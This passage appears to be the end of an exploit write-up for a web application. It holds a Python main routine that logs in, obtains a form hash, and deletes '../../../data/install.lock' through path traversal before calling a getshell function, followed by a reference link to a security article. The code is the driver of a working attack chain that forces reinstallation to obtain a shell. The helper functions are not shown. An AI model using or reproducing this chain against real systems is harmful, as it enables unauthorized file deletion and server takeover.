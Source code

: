 
    if __name__ == '__main__':
        login()
        form_hash = get_form_hash()
        if form_hash:
            delete(form_hash, '../../../data/install.lock')
            getshell()
        else:
            print('failed')

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-7
